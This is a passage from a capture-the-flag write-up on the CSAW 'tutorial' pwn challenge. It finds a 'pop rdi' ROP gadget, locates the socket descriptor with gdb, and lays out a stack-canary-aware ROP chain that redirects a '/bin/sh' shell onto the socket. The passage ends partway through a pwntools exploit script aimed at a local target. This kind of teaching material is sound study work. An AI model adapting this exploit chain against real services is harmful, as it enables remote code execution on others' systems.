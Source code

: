 Now that we have the stack canary, and the address, we need to find a ROP gadget that will pop the `rdi` register for us, so we can use it to pass arguments to functions. We can do this using ROPgadget.
```
$	python ROPgadget.py --binary tutorial | grep 'pop rdi'
0x00000000004012e3 : pop rdi ; ret
```
The last thing we will need for our exploit is knowing what socket to buind to. This program operates by listening with a parent process, and spawning a child process to deal with each connection. By default if we run the exploit which uses `system` to call "/bin/sh" the shell will use the 0 and 1 file descriptors of the parent process to run the shell, and we won't be able to use it. If we close those file descriptors and change the file descriptor using `dup` to the socket, then we will be able to use the shell. We can find the socket using gdb.

First we need to set a breakpoint for any point after the socket is created
```
gdb-peda$ b write
Breakpoint 1 at 0x400ae0
gdb-peda$ r 44866
```

Now we need to find which socket it uses

```
gdb-peda$ info proc
process 21431
warning: target file /proc/21431/cmdline contained unexpected null characters
cmdline = '/Hackery/ctf/csaw/pwn/tutorial/tutorial'
cwd = '/home/tutorial'
exe = '/Hackery/ctf/csaw/pwn/tutorial/tutorial'
gdb-peda$ shell ls -asl /proc/21431/fd
total 0
0 dr-x------ 2 root     root      0 Jun 28 10:59 .
0 dr-xr-xr-x 9 tutorial tutorial  0 Jun 28 10:00 ..
0 lrwx------ 1 root     root     64 Jun 28 10:59 0 -> /dev/pts/3
0 lrwx------ 1 root     root     64 Jun 28 10:59 1 -> /dev/pts/3
0 lrwx------ 1 root     root     64 Jun 28 10:59 2 -> /dev/pts/3
0 lrwx------ 1 root     root     64 Jun 28 10:59 4 -> socket:[328800]
```

So we can see that the socket it uses is `4`. Now we should be able to construct our exploit which will look like this. 

```
payload = "0"*312 + stack_canary + "0"*8 + rop_gadget + 0 + close + rop_gadget + 1 + close + rop + socket + dup + dup + rop + binsh + system
```

putting it all together we get this exploit:
```
#Import pwntools
from pwn import *

#Designate the libc elf and the remote connection
#elf = ELF("./tutorial")
libc = ELF("./libc-2.19.so")
target = remote('127.0.0.1', 44888)

#Choose the first option
print target.recvuntil('>')
target.sendline("1")

#Grab the input and parse out the address
leak = target.recvline().strip()
leak = int(leak.replace("Reference:", ""), 16)
print "leak: " + hex(leak)

#Calculate the other addresses from the leaked address
```